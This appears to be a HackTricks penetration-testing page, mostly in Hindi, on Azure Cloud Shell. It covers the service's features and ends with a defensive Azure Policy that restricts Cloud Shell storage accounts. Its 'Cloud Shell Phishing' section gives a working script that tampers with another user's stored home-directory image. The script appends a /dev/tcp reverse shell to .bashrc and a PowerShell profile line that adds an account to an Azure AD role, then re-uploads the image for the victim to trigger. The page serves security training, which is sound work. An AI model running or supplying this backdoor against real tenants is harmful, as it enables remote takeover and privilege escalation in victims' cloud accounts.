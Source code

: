# Az - Cloud Shell

{{#include ../../../banners/hacktricks-training.md}}

## Azure Cloud Shell

**Azure Cloud Shell** एक इंटरैक्टिव, प्रमाणित, ब्राउज़र-एक्सेसिबल टर्मिनल है जिसे Azure संसाधनों का प्रबंधन करने के लिए डिज़ाइन किया गया है, जो Bash या PowerShell के साथ काम करने की लचीलापन प्रदान करता है। यह एक अस्थायी, प्रति-सेशन होस्ट पर चलता है जो 20 मिनट की निष्क्रियता के बाद टाइमआउट हो जाता है, जबकि $HOME स्थान में 5-GB फ़ाइल शेयर का उपयोग करके फ़ाइलों को बनाए रखता है। Cloud Shell को कई बिंदुओं के माध्यम से एक्सेस किया जा सकता है, जिसमें Azure पोर्टल, shell.azure.com, Azure CLI और PowerShell दस्तावेज़, Azure मोबाइल ऐप, और Visual Studio Code Azure खाता एक्सटेंशन शामिल हैं।

इस सेवा के लिए कोई अनुमतियाँ निर्धारित नहीं की गई हैं, इसलिए कोई विशेषाधिकार वृद्धि तकनीकें नहीं हैं। साथ ही, कोई प्रकार की गणना नहीं है।

### Key Features

- **Preinstalled Tools**: Cloud Shell में Azure CLI, Azure PowerShell, Terraform, Docker CLI, Ansible, Git, और vim, nano, और emacs जैसे टेक्स्ट संपादकों जैसे प्रीइंस्टॉल्ड टूल्स का एक व्यापक सेट शामिल है। ये टूल उपयोग के लिए तैयार हैं। स्थापित पैकेज और मॉड्यूल की सूची के लिए आप "Get-Module -ListAvailable", "tdnf list" और "pip3 list" का उपयोग कर सकते हैं।
- **Azure drive (Azure:)**: Azure Cloud Shell में PowerShell Azure ड्राइव (Azure:) शामिल है, जो Compute, Network, और Storage जैसे Azure संसाधनों की आसान नेविगेशन की अनुमति देता है, फाइल सिस्टम-जैसे कमांड का उपयोग करके। Azure ड्राइव पर स्विच करने के लिए cd Azure: का उपयोग करें और अपने होम डायरेक्टरी पर वापस जाने के लिए cd ~ का उपयोग करें। आप किसी भी ड्राइव से संसाधनों का प्रबंधन करने के लिए Azure PowerShell cmdlets का उपयोग कर सकते हैं।
- **Custom Tool Installation**: उपयोगकर्ता जो Cloud Shell को एक स्टोरेज खाता के साथ कॉन्फ़िगर करते हैं, वे अतिरिक्त टूल स्थापित कर सकते हैं जिन्हें रूट अनुमतियों की आवश्यकता नहीं होती है। यह सुविधा Cloud Shell वातावरण के आगे के अनुकूलन की अनुमति देती है, जिससे उपयोगकर्ता अपनी सेटअप को अपनी विशिष्ट आवश्यकताओं के अनुसार अनुकूलित कर सकते हैं।
- **$HOME persistence**: जब आप पहली बार Azure Cloud Shell शुरू करते हैं, तो आप इसे एक जुड़े स्टोरेज खाते के साथ या बिना उपयोग कर सकते हैं।
- स्टोरेज को संलग्न न करने से एक अस्थायी सत्र बनता है जहां फ़ाइलें सत्र समाप्त होने पर हटा दी जाती हैं।
- सत्रों के बीच फ़ाइलों को बनाए रखने के लिए, आपको **एक स्टोरेज खाता माउंट करने का विकल्प** दिया जाता है, जो स्वचालित रूप से `$HOME\clouddrive` के रूप में संलग्न होता है, आपके `$HOME` डायरेक्टरी को **एक फ़ाइल शेयर में .img फ़ाइल के रूप में सहेजा जाता है।**

### Cloud Shell Phishing

यदि एक हमलावर एक स्टोरेज खाते में अन्य उपयोगकर्ताओं की छवियाँ पाता है जिसमें उसे लिखने और पढ़ने की अनुमति है, तो वह छवि को डाउनलोड कर सकेगा, **इसमें एक बैश और PS बैकडोर जोड़ सकेगा**, और इसे स्टोरेज खाते में वापस अपलोड कर सकेगा ताकि अगली बार जब उपयोगकर्ता शेल का उपयोग करे, तो **कमांड स्वचालित रूप से निष्पादित होंगी**।

- **Download, backdoor and upload the image:**
```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name>

# Mount image
cd /tmp/phishing_img/.cloudconsole
mkdir /tmp/cloudpoison
sudo mount acc_username.img /tmp/cloudpoison
cd /tmp/cloudpoison
sudo mkdir .config
sudo mkdir .config/PowerShell
sudo touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
sudo chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo "Connect-AzureAD; Add-AzureADDirectoryRoleMember -ObjectId 1246bcfd-42dc-4bb7-a86d-3637ca422b21 -RefObjectId 1D8B2447-8318-41E5-B365-CB7275862F8A" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1
cd /tmp

sudo umount /tmp/cloudpoison

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img"
```
- **फिर, उपयोगकर्ता को https://shell.azure.com/ पर पहुँचने के लिए फ़िश करें।**

### क्लाउड शेल स्वचालित स्टोरेज खातों को खोजें और प्रतिबंधित करें

क्लाउड शेल द्वारा बनाए गए स्टोरेज खातों को **`ms-resource-usage:azure-cloud-shell`** के साथ टैग किया गया है। इस टैग के साथ संसाधन बनाने से रोकने के लिए एक Azure संसाधन नीति बनाना संभव है।

टैग द्वारा क्लाउड शेल द्वारा बनाए गए सभी स्टोरेज खातों को खोजें:
```bash
az storage account list --output json | jq '.[] | select(.tags["ms-resource-usage"]=="azure-cloud-shell")'
```
क्लाउड शेल स्टोरेज के लिए टैग के आधार पर स्वचालित स्टोरेज खातों के निर्माण को रोकने के लिए नीति:
```json
{
displayName: "Restrict cloud shell storage account creation",
description: "Storage accounts that you create in Cloud Shell are tagged with ms-resource-usage:azure-cloud-shell. If you want to disallow users from creating storage accounts in Cloud Shell, create an Azure resource policy for tags that is triggered by this specific tag. https://learn.microsoft.com/en-us/azure/cloud-shell/persisting-shell-storage#restrict-resource-creation-with-an-azure-resource-policy",
metadata: {
category: "Storage",
version: "1.0.0"
},
mode: "All",
parameters: {
effect: {
type: "String",
metadata: {
displayName: "Effect",
description: "Deny, Audit or Disabled the execution of the Policy"
},
allowedValues: [
"Deny",
"Audit",
"Disabled"
],
defaultValue: "Audit"
}
},
policyRule: {
if: {
allOf: [
{
field: "type",
equals: "Microsoft.Storage/storageAccounts"
},
{
field: "tags['ms-resource-usage']",
equals: "azure-cloud-shell"
}
]
},
then: {
effect: "[parameters('effect')]"
}
}
}
```
## संदर्भ

- [https://learn.microsoft.com/en-us/azure/cloud-shell/overview](https://learn.microsoft.com/en-us/azure/cloud-shell/overview)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/features](https://learn.microsoft.com/en-us/azure/cloud-shell/features)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window](https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window)


## स्थिरता

{{#ref}}
../az-persistence/az-cloud-shell-persistence.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
